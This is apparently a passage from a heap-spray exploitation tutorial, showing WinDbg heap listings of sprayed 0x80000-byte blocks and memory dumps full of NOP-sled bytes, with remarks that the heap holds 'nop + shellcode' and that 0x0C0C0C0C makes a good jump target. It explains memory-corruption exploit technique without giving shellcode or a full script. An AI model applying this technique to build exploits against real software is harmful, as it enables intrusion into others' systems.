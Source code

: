 We can also list all blocks that have the same size (in our case 0x80000)
```
0:014> !heap -flt s 80000
    _HEAP @ 140000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        05780018 10000 0000  [0b]   05780020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7ffef
        05810018 10000 0000  [0b]   05810020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        056f0018 10000 0000  [0b]   056f0020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        058a0018 10000 0000  [0b]   058a0020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05930018 10000 0000  [0b]   05930020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        059c0018 10000 0000  [0b]   059c0020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05a50018 10000 0000  [0b]   05a50020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05ae0018 10000 0000  [0b]   05ae0020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05b70018 10000 0000  [0b]   05b70020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05c00018 10000 0000  [0b]   05c00020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05c90018 10000 0000  [0b]   05c90020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05d20018 10000 0000  [0b]   05d20020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        05db0018 10000 0000  [0b]   05db0020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
......
        0bf00018 10000 0000  [0b]   0bf00020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        0bf90018 10000 0000  [0b]   0bf90020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        0c020018 10000 0000  [0b]   0c020020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        0c0b0018 10000 0000  [0b]   0c0b0020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
        0c140018 10000 0000  [0b]   0c140020    80000 - (busy VirtualAlloc)
          ? <Unloaded_Ed20.dll>+7fff7
......
```

Now, our heap is full of "nop + shellcode". Under normal circumstances, 0x0C0C0C0C is a good target for us to jump into.
```
0:014> d 04040404
04040404  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040414  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040424  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040434  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040444  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040454  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040464  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
04040474  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:014> d 05050505
05050505  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050515  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050525  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050535  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050545  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050555  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
05050565  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
```